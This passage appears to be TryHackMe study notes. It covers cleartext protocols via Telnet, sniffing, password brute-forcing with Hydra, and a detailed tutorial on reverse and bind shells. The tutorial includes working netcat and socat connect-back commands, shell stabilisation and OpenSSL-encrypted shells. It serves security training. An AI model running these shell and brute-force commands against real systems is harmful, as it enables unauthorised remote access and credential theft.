2.    Next, we need to type `GET /index.html HTTP/1.1` to retrieve the page index.html or `GET / HTTP/1.1` to retrieve the default page.
3.    Finally, you need to provide some value for the host like `host: telnet` and hit the Enter/Return key twice.

#### File Transfer Protocol (FTP)

File Transfer Protocol (FTP) was developed to make the transfer of files between different computers with different systems efficient. FTP servers listen on port 21.

###### Example 


1.    We connected to an FTP server using a Telnet client. Since FTP servers listen on port 21 by default, we had to specify to our Telnet client to attempt connection to port 21 instead of the default Telnet port.
2.    We needed to provide the username with the command USER frank.
3.    Then, we provided the password with the command PASS D2xc9CgD.
4. Because we supplied the correct username and password, we got logged in.


#### Simple Mail Transfer Protocol (SMTP)

Simple Mail Transfer Protocol (SMTP) is used to communicate with an MTA server. Because SMTP uses cleartext, where all commands are sent without encryption, we can use a basic Telnet client to connect to an SMTP server and act as an email client (MUA) sending a message.

SMTP server listens on port 25 by default. To see basic communication with an SMTP server, we used Telnet to connect to it. Once connected, we issue `helo hostname` and then start typing our email.

After `helo`, we issue `mail from:`, `rcpt to:` to indicate the sender and the recipient. When we send our email message, we issue the command `data` and type our message. We issue `<CR><LF>.<CR><LF>` (or `Enter . Enter` to put it in simpler terms). The SMTP server now queues the message.

#### Post Office Protocol 3 (POP3)

Post Office Protocol version 3 (POP3) is a protocol used to download the email messages from a Mail Delivery Agent (MDA) server, as shown in the figure below. The mail client connects to the POP3 server, authenticates, downloads the new email messages before (optionally) deleting them.

```sh
telnet MACHINE_IP 110
```

#### Internet Message Access Protocol (IMAP)

Internet Message Access Protocol (IMAP) is more sophisticated than POP3. IMAP makes it possible to keep your email synchronized across multiple devices (and mail clients). In other words, if you mark an email message as read when checking your email on your smartphone, the change will be saved on the IMAP server (MDA) and replicated on your laptop when you synchronize your inbox.

```sh
telnet MACHINE_IP 143
```

### Protocol and Server Attacks

#### Sniffing Attack

Sniffing attack refers to using a network packet capture tool to collect information about the target. When a protocol communicates in cleartext, the data exchanged can be captured by a third party to analyse. A simple network packet capture can reveal information, such as the content of private messages and login credentials, if the data isn't encrypted in transit.

A sniffing attack can be conducted using an Ethernet (802.3) network card, provided that the user has proper permissions (root permissions on Linux and administrator privileges on MS Windows). There are many programs available to capture network packets. We consider the following:

1.    Tcpdump is a free open source command-line interface (CLI) program that has been ported to work on many operating systems.
2.    Wireshark is a free open source graphical user interface (GUI) program available for several operating systems, including Linux, macOS and MS Windows.
3.    Tshark is a CLI alternative to Wireshark.

#### Man-in-the-Middle (MITM) Attack

A Man-in-the-Middle (MITM) attack occurs when a victim (A) believes they are communicating with a legitimate destination (B) but is unknowingly communicating with an attacker (E).

#### Secure Shell (SSH)

To use SSH, you need an SSH server and an SSH client. The SSH server listens on port 22 by default. The SSH client can authenticate using:

1.    A username and a password
2.    A private and public key (after the SSH server is configured to recognize the corresponding public key)

```sh
ssh username@MACHINE_IP
```

We can use SSH to transfer files using SCP (Secure Copy Protocol) based on the SSH protocol. An example of the syntax is as follows: `scp mark@MACHINE_IP:/home/mark/archive.tar.gz ~`. This command will copy a file named `archive.tar.gz` from the remote system located in the `/home/mark` directory to `~`, i.e., the root of the home directory of the currently logged-in user.

#### Password Attack

This task will focus on attacks against passwords, i.e. something the target knows. If you revisit the communication with several previous servers using protocols such as Telnet, SSH, POP3, and IMAP, we always need a password to gain access. 

Attacks against passwords are usually carried out by:

1.    Password Guessing: Guessing a password requires some knowledge of the target, such as their pet’s name and birth year.
2.    Dictionary Attack: This approach expands on password guessing and attempts to include all valid words in a dictionary or a wordlist.
3.    Brute Force Attack: This attack is the most exhaustive and time-consuming where an attacker can go as far as trying all possible character combinations, which grows fast (exponential growth with the number of characters).

We want an automated way to try the common passwords or the entries from a word list; here comes THC Hydra. Hydra supports many protocols, including FTP, POP3, IMAP, SMTP, SSH, and all methods related to HTTP. The general command-line syntax is: `hydra -l username -P wordlist.txt server service`.

## Types of Shells

At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells. 

* **Reverse shells** are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.

* **Bind Shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

#### Interactivity

* Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to
interactive shells. These allow you to interact with programs after executing them. SSH is interactive and it asks the user to type either yes or no in order to continue the connection.

* Non-Interactive shells don't give you that luxury. In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. The `whoami` command (which is non-interactive) will execute perfectly, but the ssh command (which is interactive) will give us no output at all. 

### Reverse Shells

#### Netcat

There are many ways to execute a shell, so we'll start by looking at listeners.

The syntax for starting a netcat listener using Linux is this:

```sh
nc -lvnp <port-number>
```

* **-l** is used to tell netcat that this will be a listener
* **-v** is used to request a verbose output
* **-n** tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
* **-p** indicates that the port specification will follow.

Realistically you could use any port you like, as long as there isn't already a service using it. Be aware that if you choose to use a port below 1024, you will need to use sudo when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

A working example of this would be:

```sh
sudo nc -lvnp 443
```

We can then connect back to this with any number of payloads, depending on the environment on the target.

### Socat

Here's the syntax for a basic reverse shell listener in socat:

```sh
socat TCP-L:<port> -
```

On Windows we would use this command to connect back:

```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
This is the equivalent command for a Linux Target:

```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### Bind Shells

#### Netcat

If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward:

```sh
nc <target-ip> <chosen-port>
```

Here we are using netcat to make an outbound connection to the target on our chosen port.

### Socat

On a Linux target we would use the following command:

```sh
socat TCP-L:<PORT> EXEC:"bash -li"
```

On a Windows target we would use this command for our listener:

```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```sh
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


### Netcat Shell Stabilisation

###### Technique 1: Python

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. 

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'` , which uses Python to spawn a better featured bash shell. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm`  -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 
	 


###### Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.

To use rlwrap, we invoke a slightly different listener:

```sh
rlwrap nc -lvnp <port>
```

This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise

When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell..

### Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Basically replace `TCP` with `OPENSSL`.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

```sh
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single `.pem` file:

```sh
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an OPENSSL listener using our generated certificate. `vefity=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

```sh
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:

Target:

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```sh
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.


